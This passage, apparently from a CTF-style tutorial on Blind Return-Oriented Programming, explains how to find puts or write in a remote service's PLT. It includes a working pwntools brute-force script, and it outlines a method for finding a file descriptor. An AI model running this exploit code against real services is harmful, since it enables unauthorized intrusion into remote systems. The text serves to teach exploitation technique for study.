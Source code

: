 ```python
```

### Find leak function
Either `write` or `puts` would be fine for this use case. To use `puts` we just need to set `rdi` to the address we want to print, using `pop rdi; ret` from `brop_gadget + 0x9`.

`write` would be quite problematic, because it turns out to be that it is almost impossible to find `pop rdx; ret` or any equivalent gadgets in a binary.
Not only this, `write` needs a file descriptor as one of its arguments. Since it is a fork from the original service, `stdin` may not necessarily equal to 0.

We cannot be sure which of `write` or `puts` is present in the `plt`, or if they are even there, all we can do is test.

In our case, we will test for `puts` first, since it is easier. Our payload will be

```
padding|pop_rdi_ret|0x400000|address to test|stop_gadget
```

We will just print the value in `0x400000`, which in the case of no PIE, will contain the magic bytes `\x7fELF`.

```python
def find_puts(offset, rdi_ret, stop_gadget):
	addr = 0x400000
	while True:
		try:
			r = remote(host, port)
			r.recvuntil('WelCome my friend,Do you know password?\n')
			r.sendline('a' * offset + p64(rdi_ret) + p64(0x400000) + p64(addr) + p64(stop_gadget))
			content = r.recv()
			if '\x7fELF' in content:
				return addr
			r.close()
			addr += 1
		except EOFError:
			r.close()
			addr += 1
		except PwnlibException:
			pass
```

In this example, since `puts` is present in the `plt`, we don't bother checking for `write`.

However, let's still look at the case where we need to test for `write`. The payload would still be similar, except that we need to set more arguments.

#### Find fd
To find `fd`, we can either
* chain multiple `write` calls together with different `fd` arguments
* open a lot of connections to the service, and try large values for the `fd`

Some properties to take note are
* Linux by default only allows a process to spawn 1024 different fds
* In POSIX systems the smallest possible fd will be returned upon request
